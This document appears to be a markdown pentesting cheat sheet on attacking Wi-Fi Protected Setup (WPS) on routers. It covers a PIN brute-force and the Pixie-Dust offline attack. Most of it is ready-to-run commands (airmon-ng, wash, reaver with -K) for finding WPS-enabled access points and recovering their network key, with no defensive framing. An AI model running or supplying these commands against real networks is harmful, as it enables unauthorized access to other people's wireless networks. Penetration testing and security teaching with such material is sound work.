 # WPS
> Wi-Fi Protected Setup (WPS) is a feature supplied with many routers. It is designed to make the process of connecting to a secure wireless network from a computer or other device easier.


## Brute-Force

> WPS can be attacked using a brute-force on the PIN (has only about 11,000 valid combinations).

**1.** Set Wireless adapted to monitor mode.

```bash
airmon-ng start wlan0
```

**2.** Run a tool like _wash_ to identificate candidate WPS enabled networks (note the BSSID and channel).

```bash
wash -i wlan0mon
```

**3.** Use reaver to crack the PIN (care with lockdowns).

```bash
reaver -i wlan0mon -b $BSSID -c $CHANNELNUM -vv
```

**Note:** Reaver is smart enough to remember where it was, and will ask you if you want to resume an interrupted session. So the cracking can be done in a number of sessions.

_____

## Pixiedust

> While the WPS brute force attack has largely been defeated by rate-limiting, we can use a tool called Pixie-Dust, to attempt offline extraction of the pin after recovering just one handshake from the WPS negotiation. We don't need to use the Pixie-Dust tool itself, because Pixie-Dust attack has been integrated into Reaver (using the -K option).

**1.** Set the external antenna into monitoring mode.

```bash
airmon-ng start wlan0
```

**2.** Get the BSSID of the access point

```bash
wash -i wlan0mon
```

**3.** Run reaver over the selected target specifying the Pixie-Dust attack.

```bash
reaver -i wlan0mon -b $BSSID -c $CHANNELNUM -K 1 -vv
```

4. Reaver has started its attack. It associates with the AP and then tries a pin of 12345670 and initiates its authentication handshake. If it finds the PIN, Reaver is again invoked with the pin to associate with the AP. If everything is OK, after a couple of minutes Reaver will recover the network key.
